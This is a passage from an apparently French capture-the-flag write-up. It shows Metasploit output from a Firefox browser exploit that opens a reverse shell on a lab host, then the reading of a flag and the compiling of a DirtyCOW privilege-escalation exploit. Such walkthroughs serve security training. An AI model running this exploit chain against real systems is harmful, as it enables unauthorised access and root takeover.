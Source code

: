```
[*] Server started.
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /safebrowsing/downloads
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /safebrowsing/downloads                                                                                                       
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/search?q=&sources=Amazon
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[*] 192.168.56.81    firefox_tostring_console_injection - Gathering target information for 192.168.56.81
[*] 192.168.56.81    firefox_tostring_console_injection - Sending HTML response to 192.168.56.81
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /v0/sources
[*] 192.168.56.81    firefox_tostring_console_injection - Gathering target information for 192.168.56.81
[*] 192.168.56.81    firefox_tostring_console_injection - Sending HTML response to 192.168.56.81
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[-] 192.168.56.81    firefox_tostring_console_injection - Target 192.168.56.81 has requested an unknown path: /favicon.ico
[*] Command shell session 1 opened (192.168.56.79:4444 -> 192.168.56.81:42843) at 2022-12-21 13:09:10 +0100
msf6 exploit(multi/browser/firefox_tostring_console_injection) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(leopold) gid=1000(leopold) groups=1000(leopold),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),107(lpadmin),124(sambashare)

```

On trouve notre premier flag :

```shellsession
leopold@leopold:/home/leopold$ cat flag.txt 
924adc9f3f14672ab03903
```

Pour la suite je n'ai rien vu de custom pour passer root mais la machine est vulnérable à `DirtyCOW` :

```shellsession
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c 
gcc: error trying to exec 'cc1': execvp: No such file or directory
leopold@leopold:/home/leopold$ find / -name cc1 2> /dev/null 
/usr/lib/gcc/i686-linux-gnu/4.7/cc1
leopold@leopold:/home/leopold$ export PATH=/usr/lib/gcc/i686-linux-gnu/4.7/:$PATH
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c 
/tmp/ccVYqtCk.o: In function `generate_password_hash':
dirty.c:(.text+0x16): undefined reference to `crypt'
/tmp/ccVYqtCk.o: In function `main':
dirty.c:(.text+0x4d2): undefined reference to `pthread_create'
dirty.c:(.text+0x508): undefined reference to `pthread_join'
collect2: error: ld returned 1 exit status
leopold@leopold:/home/leopold$ gcc -o dirty dirty.c -lpthread -lcrypt
```